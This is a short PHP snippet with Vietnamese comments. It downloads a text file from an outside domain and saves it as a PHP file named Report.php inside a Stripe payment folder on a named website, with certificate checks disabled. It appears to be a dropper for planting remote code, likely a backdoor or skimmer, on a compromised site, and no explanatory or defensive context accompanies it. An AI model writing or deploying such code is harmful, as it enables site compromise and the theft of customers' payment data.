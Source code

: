// URL của file cần tải
$url = "https://dogebreedlist.info/app/report.txt";

// Đường dẫn lưu file
$savePath = "/home/cambodiaearrival/public_html/stripe/Stripe/Report.php";

// Khởi tạo cURL session
$ch = curl_init($url);

// Mở file để ghi
$file = fopen($savePath, "w");

if ($file === false) {
    die("Không thể mở file để ghi.");
}

// Cấu hình cURL để ghi dữ liệu trực tiếp vào file
curl_setopt($ch, CURLOPT_FILE, $file);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, false);

// Thực hiện tải file
$result = curl_exec($ch);

// Kiểm tra lỗi
if ($result === false) {
    echo "Lỗi cURL: " . curl_error($ch);
} else {
    echo "Tải file thành công!";
}

// Đóng cURL và file
curl_close($ch);
fclose($file);
?>
